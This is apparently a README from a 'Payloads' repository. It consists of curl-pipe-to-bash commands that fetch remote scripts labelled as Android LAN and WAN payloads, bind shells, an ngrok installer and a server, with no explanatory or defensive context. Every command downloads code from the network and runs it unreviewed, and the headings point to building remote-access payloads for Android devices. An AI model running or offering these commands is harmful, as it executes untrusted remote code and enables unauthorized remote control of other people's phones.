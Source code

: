 # Android 

<B>Local Area Network</B><BR>
  <pre><code>curl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LANAndroid.sh -s|bash </code></pre>
<BR>
<B>Wide Area Network</B>
 <pre><code>curl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/WANAndroid.sh -s|bash </code></pre>
<BR>
# Android Bind
<B>Local Area Network</B><BR>
  <pre><code>curl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LBIND.sh -s|bash </code></pre>
<BR>
<B>Wide Area Network</B>
 <pre><code>curl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/WBIND.sh -s|bash </code></pre>
 <BR>
 <B>Install ngrok in Linux or Termux</B>
 <pre><code>curl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/InstallNgrok.sh -s|bash </code></pre>
 <BR>
 <B>Server</B>
 <pre><code>curl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/server.sh -s|bash </code></pre>
 
